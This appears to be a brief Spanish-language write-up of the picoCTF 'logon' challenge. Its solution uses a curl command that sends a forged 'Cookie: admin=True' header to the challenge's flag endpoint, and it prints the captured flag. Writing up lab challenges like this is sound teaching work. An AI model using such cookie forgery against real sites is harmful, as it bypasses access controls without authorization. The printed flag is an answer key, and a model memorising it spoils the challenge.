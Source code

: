 logon
# Objetivo
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594```

## Solucion
```Bash
abrir link
ingresar como cualqueir usuario
copiar url
copiar terminal
curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: admin=True" | grep pico
copiar flag
picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}
```
## Notas Adicionales
|**Comandos**|**Descripcion**|
|--------|-------------|
|||
|||
## Referencias

